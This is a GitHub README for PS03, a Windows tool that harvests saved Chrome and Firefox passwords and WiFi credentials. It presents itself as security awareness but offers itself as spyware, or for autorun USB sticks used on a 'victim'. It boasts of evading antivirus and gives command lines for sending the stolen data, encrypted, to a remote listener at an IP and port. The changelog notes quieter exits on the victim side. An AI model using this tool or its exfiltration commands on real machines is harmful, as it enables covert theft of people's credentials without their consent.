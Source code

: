 # PS03

PS03 is a project which goal is to set more focus on security. Stop saving your passwords in chrome, firefox, don't automaticly connect to WiFi's and so on. This project shows how easy an attacker can get all your passwords ever saved, even without any anti-virus complaining. 

  

![ServersideScreenshot](https://github.com/benlarsendk/PS03/blob/master/screenshot.PNG "Screenshot of serverside")
The above shown screenshot, is the output as seen from serverside.

### Usage
The software is made as both the receiving end as well as the victimside end. It's therefore required to configure the program at startup, such that it does as expected. This software could be used on a USB-stick with autorun capabilities to extract passwordsinformation from a victim. It is also possible to use it as spyware and let the program send the data (AES-encrypted) back to a host.

To configure the program as a sniffer that transmits to a server:
```sh
$ PS03.exe -t -i [ip] -p [port]
```

To configure the program as a serverside receiver:
```sh
$ PS03.exe -r -p [port]
```

If wanted, the program can function without any network communication. To configure the program to run locally
```sh
$ PS03.exe -v
```
The -v (verbose) command can also be used alongside networking to generate report and show output on victimside.

To generate a reportfile, that specifies the most used passwords and more, use:
```sh
$ PS03.exe -l
```

Example for viewing output and saving it to a logfile while at the same time transmitting:
```sh
$ PS03.exe -v -l -t -p 501 -i 192.168.1.12
```
### Credits

PS03 uses code and inspiration from the following authors:

* [DPAPI] - For decrypting Chrome passwords
* [Mark Brittingham] - For simple AES encryption of data
* [SQLite] - For reading the Google Chrome Login Data file
* [3V1L] - For supplying some of the code for decrypting firefox passwords and username.
* [Command Line Parser Library] - for parsing input parameters


### Development

Want to contribute? Please do so. 
If you find an issue, please create it as an issue, and if you want you can fix it and make a pullrequest.

### Version

3.2.1

**CHANGELOG**
3.2.1
- Major boost on performance - now executes in about a second (CPU-depended of course.)
- Fixed usagepercentage
- Report redesign


3.2.0
- Merged all solutions in to a single solution and added commandline parameters
- Tweaks on performance


3.1.0
- PS03 can now handle Firefox user profiles. Tested on Firefox version 43.0.1.
- PS03 Generates a report file with most common passwords. This is still in pre-alpha


3.0.2
- Fixed crashes when victim doesn't use chrome or have WLAN
- Fixed send timeout at victimside to exit quietly instead of crash
- General cleanup

   [DPAPI]: <http://www.obviex.com/samples/dpapi.aspx>
   [Mark Brittingham]: <http://stackoverflow.com/questions/165808/simple-two-way-encryption-for-c-sharp>
   [SQLite]: <https://www.sqlite.org/>
   [3V1L]: <http://xakfor.net/threads/c-firefox-36-password-cookie-recovery.12192/>
   [Command Line Parser Library]: <https://commandline.codeplex.com/>
   

